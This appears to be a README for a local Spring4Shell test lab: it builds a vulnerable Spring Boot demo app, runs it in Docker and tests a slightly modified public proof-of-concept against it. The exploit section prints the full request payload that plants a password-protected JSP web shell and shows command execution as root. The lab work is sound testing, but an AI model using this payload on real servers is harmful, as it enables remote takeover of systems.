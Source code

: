 # Spring4Shell test

## Setup vulnerable application 

### Install openjdk >= 9

Install and setup on manjaro and archlinux
```bash
$ yay -S jdk11-openjdk
$ sudo archlinux-java set java-11-openjdk
```

### Build vuln application

These are the steps I followed to build the vuln app in this repo:

Go to https://start.spring.io/#!type=maven-project&language=java&platformVersion=2.6.5&packaging=jar&jvmVersion=11&groupId=com.example&artifactId=demo&name=demo&description=Demo%20project%20for%20Spring%20Boot&packageName=com.example.demo&dependencies=web,thymeleaf

Unzip the generated project

Since I like to know what I'm doing I followed the great tutorial at https://spring.io/guides/gs/handling-form-submission/

#### Build war file

Add war packaging info to `pom.xml` file:

```xml
	<groupId>com.example</groupId>
	<artifactId>demo</artifactId>
	<packaging>war</packaging>
	<version>0.0.1-SNAPSHOT</version>
	<name>demo</name>
	<description>Demo project for Spring Boot</description>
```

Add final name so that package will be named `demo.war`, in `pom.xml` under the `<build>` section
```xml
<build>
	<finalName>demo</finalName>
	[...]
</build>
```

run maven
```
$ cd demo
$ mvn clean package
```

which creates `demo/target/demo.war`

### Check for Spring in package

Confirm that an application uses spring framework
```
$ mkdir demo_src
$ mv demo/target/demo.war demo_src
$ cd demo_src
$ unzip demo.war
$ find . -name 'spring-beans-*.jar'  
./BOOT-INF/lib/spring-beans-5.3.17.jar
```

Apparently, people are saying that you can also check for the `CachedIntrospectionResults.class` file.

### Run and test the app:

Using the Dockerfile in this repo, simply run the following commands:

```bash
$ docker build -t eq/spring4shell ./
$ docker container run -it --publish 8080:8080 eq/spring4shell
```

#### App testing: 

```bash
$ curl -i http://127.0.0.1:8080/demo/greeting
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Transfer-Encoding: chunked
Date: Thu, 31 Mar 2022 10:43:48 GMT

<!DOCTYPE HTML>
<html>
<head> 
    <title>Getting Started: Handling Form Submission</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
	<h1>Form</h1>
    <form action="/greeting" method="post">
    	<p>Id: <input type="text" id="id" name="id" value="0" /></p>
        <p>Message: <input type="text" id="content" name="content" value="" /></p>
        <p><input type="submit" value="Submit" /> <input type="reset" value="Reset" /></p>
    </form>
</body>
</html>
$ # Testing the form:
$ curl -i http://127.0.0.1:8080/demo/greeting -d 'id=1&content=message_content'
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Transfer-Encoding: chunked
Date: Thu, 31 Mar 2022 10:44:41 GMT

<!DOCTYPE HTML>
<html>
<head> 
    <title>Getting Started: Handling Form Submission</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
	<h1>Result</h1>
    <p >id: 1</p>
    <p >content: message_content</p>
    <a href="/greeting">Submit another message</a>
</body>
</html>
```

## Testing the exploit:

Slightly modified PoC from: https://github.com/BobTheShoplifter/Spring4Shell-POC can be found in the `poc.py` file.

Modifications performed:
 - Change directory to `webapps/demo` to match the demo
 - Add debug prints


```bash
$ python poc.py --url http://127.0.0.1:8080/demo/greeting 
[+] Requesting url with content:
Headers: {'suffix': '%>//', 'c1': 'Runtime', 'c2': '<%', 'DNT': '1', 'Content-Type': 'application/x-www-form-urlencoded'}
Data: class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/demo&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
=======================================
[+] Checking shell properly uploaded at: http://127.0.0.1:8080/demo/tomcatwar.jsp
[+] Confirming shell at:http://127.0.0.1:8080/demo/tomcatwar.jsp?pwd=j&cmd=id
```

RCE result:
```bash
$ curl http://127.0.0.1:8080/demo/tomcatwar.jsp\?pwd\=j\&cmd\=id -o test
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2530    0  2530    0     0  36332      0 --:--:-- --:--:-- --:--:-- 36666
$ cat test 
uid=0(root) gid=0(root) groups=0(root)

//
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -
```


